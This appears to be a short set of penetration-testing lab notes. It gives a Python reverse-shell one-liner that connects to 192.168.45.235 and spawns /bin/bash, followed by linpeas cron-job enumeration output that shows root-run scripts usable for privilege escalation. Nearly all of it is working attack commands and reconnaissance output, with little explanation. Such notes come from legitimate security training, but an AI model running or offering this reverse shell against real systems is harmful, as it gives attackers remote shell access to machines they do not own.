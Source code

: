### apparently secret python reverse shell
`python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.235",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")"`
- same as Python #2 from rev shells, but with the interior "'s escaped with \'s

### Cron jobs - linpeas

```
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                                                                     
/usr/bin/crontab                                                                                                                                                                                                                           
incrontab Not Found
-rw-r--r-- 1 root root   74 Oct 31  2019 /etc/cron.deny                                                                                                                                                                                    
-rw-r--r-- 1 root root   66 Jan 15  2021 /etc/crontab.bak

/etc/cron.d:
total 12
drwxr-xr-x  2 root root 4096 Nov  5  2020 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
-rw-r--r--  1 root root  128 Oct 31  2019 0hourly

/etc/cron.daily:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Nov  5  2020 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
-rwxr-xr-x  1 root root  580 Oct 31  2019 0anacron

/etc/cron.monthly:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..

/etc/cron.weekly:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..

/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Jul 27 17:08 cron.daily
-rw------- 1 root root    9 Jul 27 17:48 cron.monthly
-rw------- 1 root root    9 Jul 27 17:28 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh


SHELL=/bin/sh
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
```